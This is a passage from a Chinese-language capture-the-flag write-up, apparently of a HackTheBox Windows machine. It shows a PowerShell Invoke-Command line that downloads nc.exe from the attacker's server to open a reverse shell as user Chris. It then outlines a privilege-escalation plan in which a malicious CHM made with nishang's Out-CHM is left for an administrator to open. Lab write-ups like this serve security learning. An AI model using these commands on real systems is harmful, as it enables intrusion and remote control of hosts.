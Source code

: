 ![image-20200310175336704](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6p0bpejj313c0gumza.jpg)

重新远程反弹 shell，成功获取用户 Chris 的 shell

![image-20200310175612690](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6pi79kcj31e60imtcj.jpg)

#### 方法二

既然默认用户下的 nc 无权运行，那就向用户 Chris 上传一个新的 nc

我们先开启本地 kali 的 web 服务，将 nc.exe 放进对应文件夹，之后远程执行下列命令，从我们本地服务器将 nc 下载保存至用户 Chris 的目录下

```shell
Invoke-Command -ComputerName sniper -Credential $cred -ScriptBlock {cd C:\Users\Chris\Documents\;$url="http://10.10.15.11/nc.exe";$output="C:\Users\Chris\Documents\nc.exe";Invoke-WebRequest -Uri $url -Outfile $output;dir}
```

![image-20200310183924496](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6qtqkdyj31e80nawl0.jpg)

再远程反弹 shell，成功

![image-20200310184122085](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6qughzqj31e20go42x.jpg)

**以上部分的详细解释可以参考之前的博客**

在 Desktop 下找到 user.txt

![Xnip2020-03-09_01-59-21](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6vrztn7j315c0e60va.jpg)

## 0x03 制作恶意 CHM 获取 root.txt

在 Chris 目录下，发现 instructions.chm 文件。

![image-20200311001701917](https://tva1.sinaimg.cn/large/00831rSTgy1gcpafywx61j31440g2q5m.jpg)



![1](https://tva1.sinaimg.cn/large/00831rSTgy1gcpd6siwoyj30uq0h2tem.jpg)CHM(Microsoft Compiled HTML Help) 文件是微软的帮助文档，也常被制作电子书。如果被以管理员权限打开时，可以触发其中隐藏的恶意代码执行。那现在的问题就是如何制作恶意 CHM 以及如何使其被管理员打开

之后，我们又在 C:\docs 目录下发现一个 note.txt，提示我们 Chris 的老板正在等她完成剩下的工作，并让其将成品放在该目录下

![image-20200311012422017](https://tva1.sinaimg.cn/large/00831rSTgy1gcpce03vi0j31420o4jw2.jpg)

我们查看 docs 目录的权限，发现是管理员权限，这说明我们可以制作一个恶意 CHM 反弹 shell 来提权

> dir /q 是用于显示文件所有信息的 cmd 命令，在 Powershell 下无法使用
>
> cmd /r 在 Powershell 下使用 cmd 命令并退出 cmd

![image-20200311014810994](https://tva1.sinaimg.cn/large/00831rSTgy1gcpd2t7akkj31460ka0xt.jpg)

### Out-CHM 制作恶意 CHM

有很多关于制作恶意 CHM 的方法，使用 nishang 的 Out-CHM.ps1 是比较方便的一种 [nishang/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)
